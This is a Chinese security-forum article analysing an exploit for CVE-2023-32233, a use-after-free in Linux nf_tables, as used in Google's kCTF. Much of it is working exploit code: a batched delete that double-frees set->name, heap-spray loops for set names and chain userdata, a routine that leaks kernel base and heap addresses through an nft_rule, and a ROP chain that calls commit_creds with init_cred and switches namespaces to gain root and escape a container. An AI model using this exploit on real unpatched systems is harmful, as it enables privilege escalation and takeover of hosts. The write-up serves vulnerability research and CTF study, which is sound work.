




# 奇安信攻防社区-CVE-2023-32233 在 Google KCTF 中的漏洞利用方案分析

### CVE-2023-32233 在 Google KCTF 中的漏洞利用方案分析

这是对前文的补充，增加一种漏洞利用方案的分析，前文地址：https://forum.butian.net/share/2719 前文的漏洞利用的策略是通过占位 set 让 ext 指针错位，从而越界销毁相邻的 expr 实现任意地...

这是对前文的补充，增加一种漏洞利用方案的分析，前文地址：

```c
https://forum.butian.net/share/2719
```

前文的漏洞利用的策略是通过占位 set 让 ext 指针错位，从而越界销毁相邻的 expr 实现任意地址读写。

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
                       const struct nft_set *set, void *elem)
{
    struct nft_set_ext *ext = nft_set_elem_ext(set, elem);

    if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
        nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));

    kfree(elem);
}
```

本文的思路则是利用 NFT\_MSG\_DELSET 来使用 UAF 的 set，实现 set->name 的 double free.

```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
    int i;
    if (WARN_ON(set->use > 0))
        return;

    for (i = 0; i < set->num_exprs; i++)
        nft_expr_destroy(ctx, set->exprs[i]);

    set->ops->destroy(set);
    nft_set_catchall_destroy(ctx, set);
    kfree(set->name); // set->name double free
    kvfree(set);
}

static void nft_commit_release(struct nft_trans *trans)
{
    switch (trans->msg_type) {
    case NFT_MSG_DELSET:
        nft_set_destroy(&trans->ctx, nft_trans_set(trans));
        break;
```

具体的步骤如下：

1.  创建 匿名 set（pwn\_lookup\_set）
2.  创建 rule 其中包含一个 lookup expr，该 expr 引用 pwn\_lookup\_set
3.  下发 netlink 批处理请求，批处理中有两个请求：NFT\_MSG\_DELRULE、NFT\_MSG\_DELSET
4.  nft\_commit\_release 处理 NFT\_MSG\_DELRULE 删除 rule 和 lookup expr，同时会释放 pwn\_lookup\_set
5.  nft\_commit\_release 处理 NFT\_MSG\_DELSET 时就会<span style="font-weight: bold;" data-type="strong">引用已经释放的 pwn\_lookup\_set，尝试再次释放 se</span>t.

在 4-5 之间使用另一个 set（race\_set）占位，内核执行完 5 后，race\_set 和 race\_set->name 的内存就会被释放，漏洞就转换为 race\_set 的 UAF

​​​​​​

控制 race\_set 的 name 长度可以获取 dyn-kmalloc-256 的 UAF，堆喷 race\_set 控制 name 的代码如下

```c
    for (int spray = 0; spray != 0x20; ++ spray) {
        char *set_name;
        asprintf(&set_name, "race_set_%0200hx", spray);  // 分配 209 大小的 set_name
        pwn_create_set(batch, seq++, set_name, spray, NFT_SET_ANONYMOUS, sizeof(uaf_set_key), set_desc_size, 0, 0);
    }
```

为了获取方便的内存读写能力，使用 chain->udata 占位 set->name，然后释放 set 就能实现 chain->udata 的 uaf，分配 udata 的代码如下：

```c
static int nf_tables_addchain(struct nft_ctx *ctx, u8 family, u8 genmask,
                  u8 policy, u32 flags,
                  struct netlink_ext_ack *extack)
    ...

if (nla[NFTA_CHAIN_USERDATA]) {
        chain->udata = nla_memdup(nla[NFTA_CHAIN_USERDATA], GFP_KERNEL_ACCOUNT);    // [4]
        if (chain->udata == NULL) {
            err = -ENOMEM;
            goto err_destroy_chain;
        }
        chain->udlen = nla_len(nla[NFTA_CHAIN_USERDATA]);
    }
```

堆喷 chain->udata 占位的相关代码：

```c
    for(int i = 0 ; i < 0x20; i++){
        char *chain_name;
        asprintf(&chain_name, "spray_chain_%08hx", i);
        pwn_create_leak_chain(batch, seq++, chain_name);
    }
```

​​

之后通过 NFT\_MSG\_GETCHAIN 就能读取 chain->udata 的数据，找一个有指针的对象占位 udata，就能泄露内核地址，这边使用的是 nft\_rule 结构体：

​​

rule 结构中的优点如下：

-   list 指针指向堆喷的相邻 rule，通过它可以泄露相邻堆块的地址，然后结合堆喷可以在相应地址上伪造数据。
-   rule 里面会内嵌 expr，expr 里面的 ops 指针保存了 KO 的地址，可以用来计算 gadget 的地址
-   rule 结构体占用的内存大小用户态可以控制

‍

rule 占位后通过 NFT\_MSG\_GETCHAIN 通过 chain->udata 读出对象的数据，泄露相关地址：

```c
        struct nlmsghdr *nlh = nftnl_nlmsg_build_hdr(
            mnl_batch_buffer,
            NFT_MSG_GETCHAIN,
            NFPROTO_INET,
            NLM_F_ACK,
            seq
        );

        char *chain_name;
        asprintf(&chain_name, "spray_chain_%08hx", i);

        nftnl_chain_set_str(chain, NFTNL_CHAIN_NAME, chain_name);
        nftnl_chain_set_str(chain, NFTNL_CHAIN_TABLE, "testfirewall");
        nftnl_chain_nlmsg_build_payload(nlh, chain);
        nftnl_chain_free(chain);

        if (mnl_socket_sendto(nl, nlh, nlh->nlmsg_len) < 0) {
            err(1, "Cannot into mnl_socket_sendto()");
        }

        memset(mnl_batch_buffer, 0, sizeof(mnl_batch_buffer));

        mnl_socket_recvfrom(nl, mnl_batch_buffer, mnl_batch_limit);

        nft_counter_ops =  *(unsigned long*) &mnl_batch_buffer[0x74];
        kbase = nft_counter_ops - NFT_COUNTER_OPS;
        heap_addr =  *(unsigned long*) &mnl_batch_buffer[0x64];
        victim_rule_handle = *(unsigned long*) &mnl_batch_buffer[0x6c] & 0xffff;
```

‍

泄露出堆地址和内核代码地址后，再利用 chain->udata 来伪造 rule 结构和 nft\_counter expr

​​

最后 NFT\_MSG\_DELRULE 触发 `expr->ops->deactivate`​ 的调用进入 ROP

```c
void make_payload_rop(uint64_t* data){
    int i = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = kbase + PUSH_RAX_POP_RSP;       // expr->ops->deactivate()

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    data[i++] = kbase + VFORK;
    data[i++] = kbase + DELAY;
}
```

‍

‍

<span style="font-weight: bold;" data-type="strong">总结</span>

struct rule 这种结构体中同时存在链表指针、内核镜像/ko 地址 的对象是用于地址泄露非常理想的对象，可以同时泄露出堆地址和代码段地址，一般堆地址可能还可以通过内核逻辑进行占位从而控制数据，实现在内核特定地址中布置数据的功能，这个能力对于伪造内核对象来说是非常重要的功能。

‍

对于桌面端内核漏洞 (ubuntu 有 ns 权限) 利用而言，netlink 里面的这些对象可以很方便的辅助漏洞利用。

‍

<span style="font-weight: bold;" data-type="strong">参考</span>

1.  [https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-32233\_mitigation/docs/exploit.md](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-32233_mitigation/docs/exploit.md)

‍
